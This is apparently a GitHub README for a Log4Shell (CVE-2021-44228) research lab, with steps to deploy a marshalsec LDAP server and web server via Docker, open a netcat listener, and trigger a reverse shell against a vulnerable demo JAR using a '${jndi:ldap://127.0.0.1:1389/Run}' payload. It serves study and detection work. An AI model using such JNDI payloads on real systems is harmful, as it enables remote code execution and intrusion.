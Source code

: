 # Log4j RCE Research Lab 🚧

A basic research lab to learn more about `Log4Shell`:
* [CVE-2021-45105](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-45105)
* [CVE-2021-45046](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-45046)
* [CVE-2021-44228](https://logging.apache.org/log4j/2.x/security.html#CVE-2021-44228)

## Research notes

I took the [following notes](research-notes/README.md) while learning about `Log4Shell`. I hopre they are helpful! 🍻
## Used By

* [Microsoft Sentinel To-Go! CVE-2021-44228-Log4Shell Demo](https://github.com/OTRF/Microsoft-Sentinel2Go/tree/master/grocery-list/Linux/demos/CVE-2021-44228-Log4Shell)

## Deploy LDAP Reference & Web Servers

### Clone Repo

```
sudo su
git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```
### Run Docker Compose File

```
cd log4jshell-lab
docker-compose -f MarshalsecLDAP-NginxWebServer.yml up --build -d
```

### Check Docker Containers

```
docker ps

docker logs --follow ldap-server
docker logs --follow web-server
```
## Run Basic Test

This scenario simulates an attacker using the log4j RCE vulnerability to get a shell locally (127.0.0.1) via netcat.
We are going to execute everything on the same endpoint where we deployed our attacker's infrastructure.

### Start Netcat Server

```
nc -lvnp 443
```
### Compile Basic JAR

**Docker**
```
cd vulnApps/basicJar
docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

**Manual**
```
cd vulnApps/basicJar
mvn -f pom.xml clean package -DskipTests
```

### Run Application

```
cd vulnApps/basicJar
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://127.0.0.1:1389/Run}'
```

![](resources/images/log4jshell-trigger-rce-basicjar-reverseshell3.png)

## Security Datasets

* [Basic JNDI Lookup PCAP](https://securitydatasets.com/notebooks/atomic/linux/initial_access/SDLIN-211214154100.html)

## References
* https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf
* https://www.youtube.com/watch?v=Y8a5nB-vy78
* https://github.com/veracode-research/rogue-jndi
* https://community.microfocus.com/cyberres/fortify/f/fortify-discussions/317555/the-perils-of-java-deserialization
* https://www.veracode.com/blog/research/exploiting-jndi-injections-java
* https://github.com/pimps/JNDI-Exploit-Kit
* https://github.com/pimps/ysoserial-modified
* https://ldap.com/ldap-urls/
* https://github.com/pwntester/SerialKillerBypassGadgetCollection
* https://www.ibm.com/docs/en/content-manager/8.5.0?topic=ldap-server-configuration-storing-java-objects
* https://docs.microsoft.com/en-us/windows/win32/ad/enabling-schema-changes-at-the-schema-master
* https://forensicitguy.github.io/analyzing-log4shell-muhstik/
* https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/fromCharCode
* https://www.jackson-t.ca/runtime-exec-payloads.html
* https://github.com/woodpecker-appstore/log4j-payload-generator/tree/master